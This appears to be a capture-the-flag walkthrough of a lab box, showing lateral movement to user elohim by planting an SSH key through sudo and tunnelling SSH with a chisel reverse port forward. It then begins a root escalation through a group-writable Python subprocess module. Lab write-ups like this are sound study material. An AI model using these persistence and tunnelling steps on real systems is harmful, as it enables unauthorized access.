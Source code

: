 What if we could have elohim authenticate to SSH with a public-private key pair? Normally, you put a public key in the `authorized_keys` file to allow the person with the private key to authenticate as the user in question. We can generate an SSH key for elohim on our local machine with the command `ssh-keygen -f elohim` and transport it to the box through a Python HTTP server (`python3 -m http.server`). After downloading the public key to the box, we employ our privileges to copy it into elohim's SSH directory.
```
sudo -u elohim cp elohim.pub /home/gehenna/.ssh/authorized_keys
```

Since the SSH server isn't running on the outside, we need a tool to forward this port so that we can access it. `chisel` is here to save the day, though. It's a tool which serves as both a client and server for port forwarding. Transporting it onto the box and setting it up as a reverse port forward with these commands, port 3445 is now accessible for login.
```
Client: ./chisel client <IP>:<PORT> R:3445
Server: ./chisel server --reverse --port <PORT>
```

Whee! We can now log in as elohim with the private key that we have from the key generation.
```
thehated@TRYHARDER:/dev/shm$ ssh -i ~/ExploitScripts/elohim elohim@127.0.0.1 -p3445  
  
  
Son, you didn't listen to me, and now you're trapped.  
You've come a long way, but this is the end of your journey.  
  
elohim@principle:~$
```

### Root

Checking in on `id`, there's an unusual group attached to us:
```
uid=1001(elohim) gid=1001(elohim) groups=1001(elohim),1002(sml)
```

When I see a group I'm not familiar with, I run `find` to see if there's any files or folders it owns. A surprising file shows up that sml owns: `/usr/lib/python3.11/subprocess.py`. The script we can execute as root with `sudo` is in Python:
```
#!/usr/bin/python3  
  
import os  
import subprocess  
  
def eliminar_archivos_incorrectos(directorio):  
   extensiones_validas = ['.jpg', '.png', '.gif']  
      
   for nombre_archivo in os.listdir(directorio):  
       archivo = os.path.join(directorio, nombre_archivo)  
          
       if os.path.isfile(archivo):  
           _, extension = os.path.splitext(archivo)  
              
           if extension.lower() not in extensiones_validas:  
               os.remove(archivo)  
               print(f"Archivo eliminado: {archivo}")  
  
directorio = '/var/www/hellfire.t4l0s.hmv/archivos'  
  
eliminar_archivos_incorrectos(directorio)  
  
def enviar_mensaje_usuarios_conectados():  
   proceso = subprocess.Popen(['who'], stdout=subprocess.PIPE)  
   salida, _ = proceso.communicate()  
   lista_usuarios = salida.decode().strip().split('\n')  
```